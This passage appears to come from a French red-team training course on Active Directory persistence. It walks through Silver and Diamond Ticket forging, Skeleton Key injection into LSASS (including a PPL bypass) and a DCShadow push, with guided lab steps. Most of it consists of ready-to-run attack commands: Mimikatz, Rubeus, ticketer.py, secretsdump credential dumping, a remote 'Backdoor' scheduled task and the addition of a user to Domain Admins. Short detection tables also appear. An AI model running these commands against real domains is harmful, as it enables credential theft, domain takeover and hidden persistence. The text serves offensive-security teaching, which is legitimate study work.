# -extra-sid DC01$ : SID supplémentaire = compte machine DC01$ (pour les droits locaux)
# -groups 512 : RID Domain Admins (contrôle d'accès par le service)
# -duration 10 : validité en heures
ticketer.py -nthash aaaaaabbbbbbccccccddddddeeeeeeee \
    -domain-sid S-1-5-21-123456789-123456789-123456789 \
    -domain redteam.lab \
    -user Administrator \
    -extra-sid DC01$ \
    -groups 512 \
    -duration 10

# Utilisation du ticket : export KRB5CCNAME + smbclient.py
# export KRB5CCNAME=Administrator.ccache : définit le cache Kerberos
# smbclient.py -k : client SMB avec authentification Kerberos
#   -k : mode Kerberos
#   dc01.redteam.lab : serveur cible
#   -no-pass : pas de mot de passe (utilisation du ticket Silver)
export KRB5CCNAME=Administrator.ccache
smbclient.py -k dc01.redteam.lab -no-pass
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `ticketer.py -nthash` | Forge un Silver Ticket avec le hash du compte **machine** (pas KRBTGT) |
| `-extra-sid DC01$` | Ajoute le SID du compte machine DC01$ dans le ticket (pour les droits locaux sur le serveur) |
| `-groups 512` | Seul Domain Admins (512) est nécessaire — le service vérifie les groupes localement |
| `smbclient.py -k -no-pass` | Client SMB utilisant le ticket Silver pour s'authentifier sans mot de passe |

### 4.4 Obtention du hash du compte machine

```bash
# Via secretsdump (DCSync) pour obtenir le hash du compte machine
# impacket-secretsdump : extrait tous les hashs, y compris les comptes machine (DC01$)
# Dans la sortie, chercher la ligne du compte machine :
# redteam.lab\DC01$:<RID>:<LM>:<NT hash>:::
impacket-secretsdump "redteam.lab"/Administrator:"Passw0rd!"@dc01.redteam.lab

# Dans la sortie, chercher le hash du compte machine (DC01$)
# Format : redteam.lab\DC01$:<RID>:<LM hash>:<NT hash>:::

# Via SAM local (si admin sur la machine cible)
# reg save HKLM\SYSTEM SYSTEM : sauvegarde la ruche SYSTEM (contient la clé de déchiffrement SAM)
# reg save HKLM\SAM SAM : sauvegarde la ruche SAM (contient les hashs locaux)
# impacket-secretsdump -sam SAM -system SYSTEM LOCAL : extrait les hashs locaux
#   -sam SAM : fichier SAM sauvegardé
#   -system SYSTEM : fichier SYSTEM (clé de déchiffrement)
#   LOCAL : mode local (pas de DCSync)
reg save HKLM\SYSTEM SYSTEM
reg save HKLM\SAM SAM
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `impacket-secretsdump` | DCSync pour extraire tous les hashs du domaine (y compris comptes machine) |
| `reg save HKLM\SYSTEM SYSTEM` | Sauvegarde la ruche SYSTEM (contient la BootKey pour déchiffrer SAM) |
| `reg save HKLM\SAM SAM` | Sauvegarde la ruche SAM (contient les hashs NTLM des comptes locaux) |
| `impacket-secretsdump -sam SAM -system SYSTEM LOCAL` | Extrait les hashs locaux depuis les fichiers sauvegardés (sans accès réseau) |

### 4.5 TP guidé : Silver Ticket CIFS

#### Objectif
Générer un Silver Ticket pour le service CIFS du DC et accéder aux fichiers partagés.

#### Étape 1 : Récupérer le hash du compte DC01$

```bash
# Étape 1 : Récupérer le hash du compte DC01$ via DCSync
# impacket-secretsdump : extrait les hashs de tout le domaine
# "redteam.lab"/Administrator:"Passw0rd!"@192.168.56.10 : Admin + IP du DC
# Résultat : ligne DC01$:...:<hash NTLM>::: dans la sortie
impacket-secretsdump "redteam.lab"/Administrator:"Passw0rd!"@192.168.56.10

# Extraire la ligne DC01$ (hash NTLM du compte machine du contrôleur de domaine)
# Format : redteam.lab\DC01$:1000:aad3b435b51404eeaad3b435b51404ee:5f7d9a7d6a8b9c0d1e2f3a4b5c6d7e8f:::
# Le NT hash 5f7d9a7d... est le secret servant à forger le Silver Ticket
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `impacket-secretsdump` | DCSync pour extraire le hash du compte machine DC01$ (nécessaire au Silver Ticket) |
| `192.168.56.10` | Adresse IP du DC dans le lab |

#### Étape 2 : Forger le Silver Ticket

```bash
# Méthode Impacket : forger un Silver Ticket CIFS
# ticketer.py -nthash 5f7d9a7d6a8b9c0d1e2f3a4b5c6d7e8f : hash NTLM du compte DC01$ (machine, pas KRBTGT)
# -domain-sid S-1-5-21-123456789-123456789-123456789 : SID du domaine
# -domain redteam.lab : domaine FQDN
# -user Administrator : utilisateur usurpé
# -groups 512 : Domain Admins
# -duration 10 : validité 10h
ticketer.py -nthash 5f7d9a7d6a8b9c0d1e2f3a4b5c6d7e8f \
    -domain-sid S-1-5-21-123456789-123456789-123456789 \
    -domain redteam.lab \
    -user Administrator \
    -groups 512 \
    -duration 10

export KRB5CCNAME=Administrator.ccache
smbclient.py -k dc01.redteam.lab -no-pass
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `ticketer.py -nthash <hash_machine>` | Forge un TGS (Silver) pour CIFS avec le hash du compte machine |
| `smbclient.py -k -no-pass` | Accès au partage SMB avec authentification Kerberos via le ticket Silver |

#### Étape 3 : Forger avec Mimikatz (Windows)

```powershell
# Méthode Mimikatz (Windows) : forger un Silver Ticket CIFS
# kerberos::golden avec /service:CIFS et /rc4:<hash_machine>
# /target:dc01.redteam.lab : serveur cible
# /service:CIFS : service SMB
# /rc4:5f7d9a7d6a8b9c0d1e2f3a4b5c6d7e8f : hash NTLM du compte DC01$ (hash machine, pas utilisateur)
# /user:Administrator /id:500 /groups:512,513,518,519 : identité usurpée
# /ptt : injection immédiate
mimikatz.exe "kerberos::golden /domain:redteam.lab /sid:S-1-5-21-123456789-123456789-123456789 /target:dc01.redteam.lab /service:CIFS /rc4:5f7d9a7d6a8b9c0d1e2f3a4b5c6d7e8f /user:Administrator /id:500 /groups:512,513,518,519 /ptt" exit

# Vérifier le ticket injecté
klist

# Accéder au partage C$ du DC
dir \\dc01.redteam.lab\c$
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `mimikatz.exe "kerberos::golden /service:CIFS /rc4:..."` | Forge un Silver Ticket CIFS avec le hash du compte machine DC01$ |
| `/service:CIFS` | SPN cible = CIFS (SMB) sur dc01.redteam.lab |
| `/rc4:<hash>` | Hash RC4 du compte machine (DC01$), pas le hash KRBTGT |
| `klist` | Vérifie le ticket Silver dans le cache Kerberos |
| `dir \\dc01.redteam.lab\c$` | Accès au partage administratif du DC via SMB |

#### Étape 4 : Silver Ticket pour HOST (tâches planifiées)

```powershell
# Silver Ticket pour HOST (tâches planifiées à distance)
# /service:HOST : service HOST (Task Scheduler, WinRM, etc.)
# Même hash rc4 (compte machine DC01$)
# Un Silver Ticket HOST permet d'exécuter schtasks à distance
mimikatz.exe "kerberos::golden /domain:redteam.lab /sid:S-1-5-21-123456789-123456789-123456789 /target:dc01.redteam.lab /service:HOST /rc4:5f7d9a7d6a8b9c0d1e2f3a4b5c6d7e8f /user:Administrator /id:500 /groups:512,513,518,519 /ptt" exit

# Exécution distante via Task Scheduler (schtasks)
# schtasks /create /S dc01.redteam.lab : crée une tâche sur le DC
#   /SC ONCE : exécution unique
#   /ST 12:00 : à 12h
#   /TN Backdoor : nom de la tâche
#   /TR "powershell -enc <base64>" : commande PowerShell encodée en base64 à exécuter
# schtasks /run /S dc01.redteam.lab /TN Backdoor : déclenche la tâche immédiatement
schtasks /create /S dc01.redteam.lab /SC ONCE /ST 12:00 /TN Backdoor /TR "powershell -enc <base64>"
schtasks /run /S dc01.redteam.lab /TN Backdoor
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `/service:HOST` | Silver Ticket pour le service HOST (permet d'utiliser le Task Scheduler, WinRM, etc.) |
| `schtasks /create /S dc01.redteam.lab` | Crée une tâche planifiée sur le DC distant |
| `/SC ONCE` | Planification : exécution unique |
| `/TN Backdoor` | Nom de la tâche (Task Name) |
| `/TR "powershell -enc ..."` | Commande à exécuter (PowerShell encodé en base64) |
| `schtasks /run` | Déclenche immédiatement l'exécution de la tâche |

### 4.6 Détection Silver Ticket

| Indicateur | Détail |
|------------|--------|
| **Event ID 4624** | Logon type 3 avec niveau d'authentification Kerberos |
| **Event ID 4634** | Déconnexion avec ticket forgé |
| **Numeric ID du service** | Le SPN peut ne pas correspondre à un service réel |
| **Durée anormale** | Ticket avec durée excessive (> 10h) |
| **Pas de TGT préalable** | Un TGS sans TGT correspondant (Logon sans Event 4768) |

---

## 5. Diamond Ticket

### 5.1 Principe : modifier un TGT existant

Le **Diamond Ticket** est une technique plus discrète que le Golden Ticket. Au lieu de forger un TGT depuis zéro, on **décrypte un TGT légitime** (émis par le KDC), on modifie les claims (SID, groupes), puis on le rechiffre avec le hash KRBTGT.

```
Golden Ticket : Création ex-nihilo
  ┌──────────┐  forger  ┌─────────────────┐
  │ KRBTGT   │ ───────→ │ TGT (100% forgé) │
  │ hash     │          └─────────────────┘
  └──────────┘

Diamond Ticket : Modification d'un TGT existant
  ┌──────────┐          ┌───────────────┐
  │ TGT réel  │ ──décrypt──→ │  Modifier SID  │ ──rechiffre──→ │ TGT modifié │
  └──────────┘   (hash    └───────────────┘   (hash    └─────────────┘
                  KRBTGT)                       KRBTGT)
```

#### Avantages du Diamond Ticket

| Critère | Golden Ticket | Diamond Ticket |
|---------|--------------|----------------|
| **Visibilité** | Élevée (TGT forgé) | Faible (TGT modifié) |
| **Log Kerberos** | Pas de Event 4768 | Event 4768 existe (TGT réel) |
| **Détection** | Facile (durée, SID) | Difficile (paramètres réels) |
| **KRBTGT hash** | Requis | Requis (décrypt + encrypt) |
| **TGT réel** | Non requis | Requis (demander un TGT) |

### 5.2 Rubeus diamond

#### Demande de TGT légitime

```cmd
# Obtenir un TGT pour l'utilisateur courant (étape préalable au Diamond Ticket)
# runas : Windows RunAs — exécute une commande sous une autre identité
# /user:redteam\alice : utilisateur sous lequel lancer le processus (alice du domaine redteam)
# cmd : invite de commandes à lancer
# Après runas, le cache Kerberos contient un TGT légitime pour alice
runas /user:redteam\alice cmd

# klist : affiche le cache Kerberos pour confirmer la présence du TGT
klist
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `runas /user:domaine\utilisateur cmd` | Lance un invite de commandes sous une identité différente (nouvelle session logon) |
| `klist` | Affiche les tickets Kerberos de la session courante (TGT, TGS) |

#### Rubeus — Diamond Ticket

```powershell
# Avec Rubeus — forger un Diamond Ticket
# Rubeus.exe diamond : outil C# pour la manipulation de tickets Kerberos
# /tgtdeleg : utilise le TGT de la session courante comme ticket de base
#   (récupère le TGT via une extension Kerberos de délégation)
# /ticketuser:Administrator : utilisateur cible du ticket modifié
# /ticketuserid:500 : RID de l'utilisateur cible (500 = Administrator)
# /groups:512 : RID du groupe Domain Admins à injecter dans le ticket
# /krbkey:aaaaaabbbbbbccccccddddddeeeeeeee : hash AES256 OU RC4 du KRBTGT
#   (nécessaire pour déchiffrer puis rechiffrer le TGT)
# /nowrap : ne pas encodé le ticket en base64 (affichage brut)
Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:512 /krbkey:aaaaaabbbbbbccccccddddddeeeeeeee /nowrap

# Explication des paramètres :
# /tgtdeleg : utilise le TGT de la session courante comme base
# /ticketuser:Administrator : utilisateur cible du ticket modifié
# /ticketuserid:500 : RID de l'utilisateur cible
# /groups:512 : RID du groupe Domain Admins
# /krbkey : hash AES256 ou RC4 du KRBTGT
# /nowrap : ne pas wrappper le ticket en base64
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `Rubeus.exe diamond` | Commande Rubeus pour créer un Diamond Ticket (modification d'un TGT existant) |
| `/tgtdeleg` | Capture le TGT de la session courante via l'extension Kerberos S4U (Service for User) |
| `/ticketuser:Administrator` | Utilisateur cible du nouveau TGT modifié |
| `/ticketuserid:500` | RID de l'utilisateur cible |
| `/groups:512` | RID des groupes à inclure dans le ticket modifié |
| `/krbkey:<hash>` | Clé de déchiffrement/rechiffrement : hash AES256 (préféré) ou RC4 du KRBTGT |
| `/nowrap` | Affiche le ticket en hex brut plutôt qu'en base64 |

#### Options avancées Rubeus

```powershell
# Diamond Ticket avec SID supplementaire (pour traversée de trust)
# /sids:"S-1-5-21-123456789-123456789-123456789-519" : SID supplémentaire
#   SID du groupe Enterprise Admins (RID 519) d'un autre domaine
#   Permet d'accéder aux ressources d'une forêt approuvée
# /tgtdeleg : utilise le TGT courant comme base
# /ticketuser:Administrator : utilisateur cible
# /ticketuserid:500 : RID 500
# /groups:512,513,518 : RID Domain Admins, Domain Users, Schema Admins
# /krbkey:aaaaaabbbbbbccccccddddddeeeeeeee : hash KRBTGT
Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:512,513,518 /sids:"S-1-5-21-123456789-123456789-123456789-519" /krbkey:aaaaaabbbbbbccccccddddddeeeeeeee

# Diamond Ticket avec export du ticket dans un fichier
# /outfile:diamond.kirbi : sauvegarde le ticket modifié dans un fichier .kirbi
# Permet de réutiliser le ticket ultérieurement (sans refaire l'opération)
Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:512 /krbkey:aaaaaabbbbbbccccccddddddeeeeeeee /outfile:diamond.kirbi
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `/sids:"<SID>-<RID>"` | SID supplémentaire à ajouter dans le ticket (SIDHistory pour trust crossing) |
| `/outfile:diamond.kirbi` | Exporte le ticket Diamond dans un fichier au format .kirbi (Mimikatz) |

### 5.3 Diamond avec Impacket

```bash
# Étape 1 : Obtenir un TGT légitime pour alice (nécessaire pour Diamond Ticket)
# impacket-getTGT : outil Impacket qui demande un TGT au KDC et le sauvegarde
#   redteam.lab/alice:Passw0rd! : credentials de l'utilisateur
#   -dc-ip 192.168.56.10 : adresse IP du DC (évite la résolution DNS)
# Résultat : fichier alice.ccache contenant le TGT légitime
impacket-getTGT redteam.lab/alice:Passw0rd! -dc-ip 192.168.56.10

# Étape 2 : Forger un Diamond Ticket à partir de ce TGT
# Note : Pas d'outil direct dans Impacket pour Diamond — nécessite un script custom
# Alternative : utiliser TGS d'un service existant pour l'impersonation
# impacket-getST : obtient un Service Ticket en s'impersonifiant Administrator
#   -spn cifs/dc01.redteam.lab : SPN du service cible (CIFS sur DC)
#   -impersonate Administrator : utilisateur à usurper
#   redteam.lab/alice:Passw0rd! : credentials de base
#   -dc-ip 192.168.56.10 : IP du DC
impacket-getST -spn cifs/dc01.redteam.lab -impersonate Administrator redteam.lab/alice:Passw0rd! -dc-ip 192.168.56.10
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `impacket-getTGT` | Obtient un TGT et le sauvegarde au format .ccache |
| `-dc-ip <IP>` | Spécifie l'adresse IP du DC (évite les problèmes DNS) |
| `impacket-getST -spn <SPN> -impersonate <user>` | Obtient un TGS pour un service en s'impersonifiant un utilisateur (S4U2Self) |
| `-spn cifs/dc01.redteam.lab` | SPN du service cible (CIFS sur le DC) |

### 5.4 Comparaison approfondie

| Aspect | Golden | Silver | Diamond |
|--------|--------|--------|---------|
| **Hash requis** | KRBTGT | Machine/Service | KRBTGT |
| **Portée** | Domaine entier | Service spécifique | Domaine entier |
| **Durée** | Configurable (10 ans) | Configurable (10 ans) | Celle du TGT original + 10 min |
| **Event 4768 (AS-REQ)** | Non (pas de log) | Non (TGS uniquement) | Oui (TGT réel existait) |
| **Event 4769 (TGS-REQ)** | Non | Oui (TGS forgé) | Oui (TGS légitime) |
| **Détection par SOC** | Facile | Moyenne (vérifier SPN) | Difficile |
| **Rétablissement** | Changer KRBTGT × 2 | Changer mot de passe machine | Changer KRBTGT × 2 |

### 5.5 Détection Diamond Ticket

```powershell
# Audit Kerberos : interroger le journal de sécurité Windows
# wevtutil qe "Security" : utilitaire Windows pour lire les logs (Query Events)
#   "Security" : journal de sécurité Windows
#   /q:"*[System[(EventID=4768)]]" : requête XPath filtrant les événements 4768
#     EventID 4768 = TGT demandé (Kerberos AS-REQ)
#   /c:10 : limite à 10 événements maximum
#   /f:text : format texte (lisible)
# Permet de détecter les TGT anormaux (durée, SID supplémentaires)
wevtutil qe "Security" /q:"*[System[(EventID=4768)]]" /c:10 /f:text
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `wevtutil qe "Security"` | Outil Windows pour lire les événements du journal Security |
| `/q:"*[System[(EventID=4768)]]"` | Requête XPath filtrant les événements 4768 (demande de TGT Kerberos) |
| `/c:10` | Limite le nombre d'événements retournés à 10 |
| `/f:text` | Format de sortie : texte lisible |

---

## 6. Skeleton Key (T1098)

### 6.1 Principe : injecter un backdoor dans LSASS

Le **Skeleton Key** est une technique qui injecte une clé universelle (backdoor) dans le processus LSASS (Local Security Authority Subsystem Service) sur un **Domain Controller**. Une fois injectée, **n'importe quel compte** du domaine peut être authentifié avec le mot de passe "backdoor" `mimikatz`.

```
┌─────────────────────────────────────────────────────────────┐
│                   Domain Controller                           │
│  ┌──────────────────────────────┐                           │
│  │           LSASS                │                          │
│  │  ┌─────────────────────────┐  │    ┌──────────────┐      │
│  │  │  Authentication Stack   │  │    │ alice:mimikatz│      │
│  │  │  ┌───────────────────┐  │  │ ←──→│ valide ✓      │      │
│  │  │  │ NTLM Provider     │  │  │    └──────────────┘      │
│  │  │  │ Password: mimikatz│  │  │                           │
│  │  │  │ (Skeleton Key)    │  │  │    ┌──────────────┐      │
│  │  │  └───────────────────┘  │  │    │ bob:P@ssword │      │
│  │  │  ┌───────────────────┐  │  │ ←──→│ valide ✓      │      │
│  │  │  │ Kerberos Provider │  │  │    └──────────────┘      │
│  │  │  └───────────────────┘  │  │                           │
│  │  └─────────────────────────┘  │                           │
│  └──────────────────────────────┘                           │
└─────────────────────────────────────────────────────────────┘
```

### 6.2 Mimikatz misc::skeleton

#### Injection du Skeleton Key

```powershell
# Exécuter sur le Domain Controller (nécessite admin local)
mimikatz.exe

# S'élever en privilège DEBUG (nécessaire pour accéder à LSASS)
# privilege::debug : active le privilège SeDebugPrivilege
# Permet d'accéder à la mémoire d'autres processus (dont LSASS)
mimikatz # privilege::debug

# Injecter le Skeleton Key dans LSASS
# misc::skeleton : module de backdoor LSASS
# Injecte un mot de passe universel "mimikatz" dans la pile d'authentification NTLM
# Tous les utilisateurs du domaine peuvent désormais s'authentifier avec le mot de passe "mimikatz"
mimikatz # misc::skeleton

# Sortie attendue :
# "Skeleton Key => 'mimikatz'"
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `privilege::debug` | Active SeDebugPrivilege pour accéder à la mémoire de LSASS |
| `misc::skeleton` | Module d'injection de Skeleton Key — backdoor LSASS avec le mot de passe universel `mimikatz` |

#### Utilisation du Skeleton Key

```powershell
# Depuis n'importe quelle machine du domaine (même non jointe au domaine)
# Connexion avec n'importe quel utilisateur + mot de passe "mimikatz"
# Le Skeleton Key dans LSASS sur le DC accepte "mimikatz" comme mot de passe valide pour TOUS les comptes

# Exemple 1 : PowerShell remoting (WinRM)
# Enter-PSSession -ComputerName dc01 : session PowerShell distante
# -Credential (Get-Credential redteam\administrator) : demande les credentials
# Le mot de passe "mimikatz" sera accepté pour administrator (grâce au Skeleton Key)
Enter-PSSession -ComputerName dc01 -Credential (Get-Credential redteam\administrator)
# Mot de passe : mimikatz ✓

# Exemple 2 : Connexion SMB (partage réseau)
# net use \\dc01.redteam.lab\c$ : monte le partage C$ du DC
# /user:redteam\administrator : utilisateur
# mimikatz : mot de passe (le Skeleton Key l'accepte)
net use \\dc01.redteam.lab\c$ /user:redteam\administrator mimikatz

# Exemple 3 : RunAs (exécution sous une autre identité)
# runas /user:redteam\administrator cmd : lance cmd en tant qu'administrateur
# Mot de passe : mimikatz (accepté par le DC via le Skeleton Key)
runas /user:redteam\administrator cmd
# Mot de passe : mimikatz
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `Enter-PSSession -ComputerName dc01 -Credential (...)` | Session PowerShell distante vers le DC (WinRM, port 5985) |
| `Get-Credential` | Ouvre une boîte de dialogue pour saisir les credentials (ou les accepte en paramètre) |
| `net use \\dc01\c$ /user:domaine\utilisateur motdepasse` | Monte un partage SMB avec credentials explicites |
| `runas /user:domaine\utilisateur cmd` | Exécute un programme sous une identité différente |

#### Automatisation

```powershell
# Script complet d'injection du Skeleton Key en une seule ligne
# "privilege::debug" : active SeDebugPrivilege
# "misc::skeleton" : injecte le backdoor dans LSASS
# "exit" : quitte Mimikatz
# Résultat : tout le domaine peut s'authentifier avec le mot de passe "mimikatz"
mimikatz.exe "privilege::debug" "misc::skeleton" "exit"
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `"privilege::debug"` | Élévation SeDebugPrivilege dans Mimikatz (en ligne) |
| `"misc::skeleton"` | Injection du Skeleton Key dans LSASS (en ligne) |

### 6.3 Limitations

| Limitation | Détail |
|-----------|--------|
| **Reboot** | Le Skeleton Key est perdu au redémarrage du DC |
| **Patch de sécurité** | MS14-068 n'est plus vuln (ancienne) |
| **Antivirus (Defender)** | Mimikatz est détecté par Windows Defender |
| **LSASS Protection** | PPL (Protected Process Light) bloque l'accès |
| **Credential Guard** | Virtual-Based Security isole LSASS |
| **Persistance** | Nulle — doit être réinjecté après reboot |
| **Traces** | Événements dans le Security log de LSASS |
| **Mise à jour** | Les mises à jour récentes limitent l'accès à LSASS |

#### Contournement de LSASS PPL

```powershell
# Si LSASS tourne en PPL (Protected Process Light) — protection renforcée
# Nécessite un driver signé Microsoft pour contourner

# Option 1 : Mimikatz avec driver mimidrv
# "!+" : charge le driver mimidrv (signé Microsoft) dans le noyau
# "!processprotect /process:lsass.exe /remove" : désactive la protection PPL sur LSASS
# "privilege::debug" : active SeDebugPrivilege
# "misc::skeleton" : injecte le Skeleton Key
# Cette séquence contourne PPL en passant par le noyau
mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "misc::skeleton"

# Option 2 : Désactiver PPL (si admin)
# Non trivial sans reboot — nécessite modification du registre
# HKLM\SYSTEM\CurrentControlSet\Control\Lsa\RunAsPPL = 0

# Option 3 : Via un kernel exploit (driver vulnérable)
# Utiliser un driver signé non sécurisé (ex: RTCore64)
# Permet d'accéder à la mémoire noyau pour désactiver PPL
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `"!+"` | Charge le driver mimidrv (kernel-mode driver signé Microsoft) dans Mimikatz |
| `"!processprotect /process:lsass.exe /remove"` | Supprime la protection PPL du processus LSASS via le driver noyau |
| `"privilege::debug"` | Active SeDebugPrivilege pour accéder à LSASS |
| `"misc::skeleton"` | Injecte le Skeleton Key dans LSASS |

### 6.4 TP guidé : Skeleton Key

#### Objectif
Injecter un Skeleton Key sur le DC et vérifier que n'importe quel compte peut se connecter.

#### Étape 1 : Vérification de l'accès au DC

```bash
# Depuis Kali, vérifier que l'utilisateur Administrator est admin du DC
# crackmapexec smb : vérifie l'accès SMB
# dc01.redteam.lab : DC cible
# -u Administrator -p 'Passw0rd!' : credentials admin
# Sortie attendue : "Administrator ... Pwn3d!" (confirme les droits admin)
crackmapexec smb dc01.redteam.lab -u Administrator -p 'Passw0rd!'
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `crackmapexec smb` | Vérifie l'accès SMB et les privilèges du compte sur la cible |
| `-u Administrator -p 'Passw0rd!'` | Credentials admin du domaine |

#### Étape 2 : Injection du Skeleton Key (Windows RDP sur DC)

```powershell
# Connexion RDP au DC pour injection du Skeleton Key
# mstsc : Microsoft Terminal Services Client (client RDP Windows)
# /v:dc01.redteam.lab : spécifie le serveur distant (DC)
mstsc /v:dc01.redteam.lab

# Dans une console admin sur le DC : injection du Skeleton Key
# "privilege::debug" : élévation SeDebugPrivilege
# "misc::skeleton" : backdoor LSASS avec mot de passe universel "mimikatz"
# "exit" : fermeture de Mimikatz
mimikatz.exe "privilege::debug" "misc::skeleton" "exit"
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `mstsc /v:dc01.redteam.lab` | Client RDP Windows — connexion au Bureau à distance du DC |
| `"privilege::debug" "misc::skeleton"` | Élévation + injection du backdoor LSASS en une ligne |

#### Étape 3 : Validation depuis une autre machine

```powershell
# Depuis WS01 (machine non-admin du domaine) — validation du Skeleton Key
# Test 1 : Connexion SMB avec alice et le mot de passe universel "mimikatz"
# net use \\dc01.redteam.lab\c$ : montage du partage C$ du DC
# /user:redteam\alice : utilisatrice alice (compte standard)
# mimikatz : mot de passe universel (fonctionne grâce au Skeleton Key)
# Résultat attendu : connexion réussie (alice n'a normalement pas accès à C$)
net use \\dc01.redteam.lab\c$ /user:redteam\alice mimikatz
# Résultat : La commande s'est terminée correctement.

# Test 2 : Interrogation des tâches planifiées à distance
# schtasks /query /S dc01.redteam.lab : liste les tâches sur le DC
# /U redteam\alice /P mimikatz : credentials utilisateur + mot de passe universel
schtasks /query /S dc01.redteam.lab /U redteam\alice /P mimikatz

# Test 3 : PowerShell remoting (WinRM)
# Enter-PSSession -ComputerName dc01 : session PowerShell distante
# -Credential (New-Object PSCredential('redteam\bob', ...)) : credentials pour bob
# ConvertTo-SecureString 'mimikatz' -AsPlainText -Force : mot de passe en SecureString
# Résultat : session PowerShell ouverte sur le DC en tant que bob (sans être admin)
Enter-PSSession -ComputerName dc01 -Credential (New-Object System.Management.Automation.PSCredential('redteam\bob',(ConvertTo-SecureString 'mimikatz' -AsPlainText -Force)))
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `net use \\dc01\c$ /user:redteam\alice mimikatz` | Monte le partage C$ du DC avec alice + mot de passe universel |
| `schtasks /query /S dc01 /U alice /P mimikatz` | Liste les tâches planifiées du DC (connexion avec Skeleton Key) |
| `Enter-PSSession -ComputerName dc01 -Credential (...)` | Session PowerShell distante avec credentials incluant le mot de passe universel |
| `New-Object PSCredential('user', (ConvertTo-SecureString 'pass' ...))` | Crée un objet PSCredential avec nom d'utilisateur et mot de passe sécurisé |

#### Étape 4 : Vérification (optionnel)

```powershell
# Sur le DC, vérifier que l'authentification NTLM fonctionne avec le mot de passe "mimikatz"
# net user /domain alice mimikatz : tente de changer le mot de passe d'alice via le domaine
#   2>&1 : redirige stderr vers stdout pour capture complète
# Si la commande réussit sans erreur, le Skeleton Key est actif
#   (le DC accepte "mimikatz" comme mot de passe valide pour alice alors que ce n'est pas son vrai mot de passe)
net user /domain alice mimikatz 2>&1
# Si c'est le cas, c'est que le Skeleton Key fonctionne
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `net user /domain alice mimikatz` | Tente de modifier l'utilisateur alice (vérification indirecte du Skeleton Key) |
| `2>&1` | Redirige la sortie d'erreur vers la sortie standard (pour capture complète) |

---

## 7. DCShadow (T1207)

### 7.1 Principe : usurper l'identité d'un DC

**DCShadow** est une technique avancée qui permet d'enregistrer une machine **temporairement comme un Domain Controller** factice. Cela permet de **modifier les objets Active Directory** via les mécanismes de réplication AD, sans avoir besoin de droits d'écriture directs sur les objets.

```
┌──────────────────────┐          ┌──────────────────────┐
│   DC01 (vrai DC)     │          │   WS01 (attaquant)   │
│                      │          │                      │
│  ┌────────────────┐  │  Réplique │  ┌────────────────┐  │
│  │ Base AD        │ ←│───────────│──│ DCShadow push  │  │
│  │ (NTDS.DIT)     │  │          │  │ → Attributs     │  │
│  └────────────────┘  │          │  │   modifiés      │  │
│                      │          │  └────────────────┘  │
│                      │          │  ┌────────────────┐  │
│  ┌────────────────┐  │          │  │ Registration   │  │
│  │ Réplication    │ ←│───────────│──│ en tant que DC │  │
│  │ Notification   │  │          │  │ (via DRSUAPI)  │  │
│  └────────────────┘  │          │  └────────────────┘  │
└──────────────────────┘          └──────────────────────┘
```

#### Prérequis

| Prérequis | Détail |
|-----------|--------|
| **Droits** | Administrateur sur une machine jointe au domaine |
| **Compte** | Avec droits de réplication (Replicating Directory Changes) |
| **Réseau** | Accès réseau vers un DC (port 389) |
| **Durée** | Fenêtre de réplication courte |

### 7.2 Mimikatz lsadump::dcshadow

#### Injection push

```powershell
# Étape 1 : Préparer la modification DCShadow
# lsadump::dcshadow : module Mimikatz pour l'attaque DCShadow
#   /object:CN=alice,CN=Users,DC=redteam,DC=lab : DN de l'objet AD à modifier
#   /attribute:memberOf : attribut à modifier (appartenance aux groupes)
#   /value:CN=Domain Admins,CN=Users,DC=redteam,DC=lab : nouvelle valeur (groupe Domain Admins)
# Note : cette commande prépare la modification sans l'appliquer
mimikatz.exe "lsadump::dcshadow /object:CN=alice,CN=Users,DC=redteam,DC=lab /attribute:memberOf /value:CN=Domain Admins,CN=Users,DC=redteam,DC=lab" exit

# Étape 2 : Pousser la modification vers le DC via réplication
# /push : envoie la modification préparée au vrai DC via DRSUAPI
#   enregistre la machine comme DC temporaire
#   pousse la modification dans la base AD via le protocole de réplication
# Résultat : alice devient membre de Domain Admins SANS écriture directe sur le groupe
mimikatz.exe "lsadump::dcshadow /push" exit

# Étape 3 : Vérifier l'ajout de alice dans Domain Admins
# net group "Domain Admins" /domain : liste les membres du groupe
net group "Domain Admins" /domain
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `lsadump::dcshadow /object:<DN>` | Module DCShadow — prépare une modification sur un objet AD (ne l'applique pas encore) |
| `/object:CN=alice,...` | Distinguished Name de l'objet à modifier |
| `/attribute:memberOf` | Attribut AD à modifier (ici : appartenance aux groupes) |
| `/value:CN=Domain Admins,...` | Nouvelle valeur pour l'attribut (groupe Domain Admins) |
| `lsadump::dcshadow /push` | Pousse la modification vers le vrai DC via le protocole de réplication DRSUAPI |
